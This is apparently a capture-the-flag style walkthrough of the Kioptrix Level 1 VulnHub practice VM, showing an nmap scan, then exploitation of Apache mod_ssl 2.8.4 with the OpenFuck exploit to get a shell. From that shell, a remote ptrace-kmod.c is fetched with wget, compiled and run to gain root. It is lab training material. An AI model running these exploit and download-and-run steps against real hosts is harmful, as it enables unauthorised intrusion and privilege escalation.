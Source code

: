 ### Kioptrix Level 1 \(Beginner Level VM\)

```
kaipowered@debian:~/Documents/Vulnhub/Kioptrix$ nmap -sC -sV -oA nmapscan 192.168.8.4

Starting Nmap 7.40 ( https://nmap.org ) at 2017-08-16 14:13 +08
Nmap scan report for 192.168.8.4
Host is up (0.68s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 2.9p2 (protocol 1.99)
| ssh-hostkey: 
|   1024 b8:74:6c:db:fd:8b:e6:66:e9:2a:2b:df:5e:6f:64:86 (RSA1)
|   1024 8f:8e:5b:81:ed:21:ab:c1:80:e1:57:a3:3c:85:c4:71 (DSA)
|_  1024 ed:4e:a9:4a:06:14:ff:15:14:ce:da:3a:80:db:e2:81 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: Test Page for the Apache Web Server on Red Hat Linux
111/tcp  open  rpcbind     2 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1           1024/tcp  status
|_  100024  1           1024/udp  status
139/tcp  open  netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp  open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: 400 Bad Request
|_ssl-date: 2017-08-16T06:15:47+00:00; +1m51s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|_    SSL2_RC4_128_EXPORT40_WITH_MD5
1024/tcp open  status      1 (RPC #100024)

Host script results:
|_clock-skew: mean: 1m50s, deviation: 0s, median: 1m50s
|_nbstat: NetBIOS name: KIOPTRIX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 107.74 seconds
```



====================================================

No interesting files/directories found in dirbuster

====================================================



The vulnerable service is

443/tcp  open  ssl/https   Apache/1.3.20 \(Unix\)  \(Red-Hat/Linux\) mod\_ssl/2.8.4 OpenSSL/0.9.6b



- searchploit this "mod\_ssl/2.8.4"



- found available exploit for the vulnerable mod\_ssl/2.8.4



- openfuck exploit: https://www.exploit-db.com/exploits/764/



- updating the exploit: http://paulsec.github.io/blog/2014/04/14/updating-openfuck-exploit/



- if there are errors in compilation install the following libssl versions.

- link on how i solved the compilation error: http://www.chokepoint.net/2017/04/fixing-and-troubleshooting-openfuck.html



- after compiling and generated the exec file



    kaipowered@debian:~/Documents/Vulnhub/Kioptrix$ ./openfuck 0x6b 192.168.8.4 443 -c 40

    *******************************************************************
    * OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
    *******************************************************************
    * by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
    * #hackarena  irc.brasnet.org                                     *
    * TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
    * #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
    * #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
    *******************************************************************

    Connection... 40 of 40
    Establishing SSL connection
    cipher: 0x4043808c   ciphers: 0x80f81e8
    Ready to send shellcode
    Spawning shell...
    bash: no job control in this shell
    bash-2.05$ 
    exploits/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; net/0304- 
    --03:14:47--  http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
               => `ptrace-kmod.c'
    Connecting to dl.packetstormsecurity.net:80... connected!
    HTTP request sent, awaiting response... 301 Moved Permanently
    Location: https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c [following]
    --03:14:48--  https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
               => `ptrace-kmod.c'
    Connecting to dl.packetstormsecurity.net:443... connected!
    HTTP request sent, awaiting response... 200 OK
    Length: 3,921 [text/x-csrc]

        0K ...                                                   100% @ 478.64 KB/s

    03:14:50 (478.64 KB/s) - `ptrace-kmod.c' saved [3921/3921]

    [+] Attached to 6502
    [+] Waiting for signal
    [+] Signal caught
    [+] Shellcode placed at 0x4001189d
    [+] Now wait for suid shell...



we got root!



Note: 

	I tried dirbustering the web server but i haven't found any interesting files/directories.

	I also searched some available exploits in rpcbind but in turns out that the nfs protocol must be present or active in order to exploit the rpc service.

	I also tried the exploit/multi/samba/usermap\_script but it didn't work.

	This vm is for beginners.




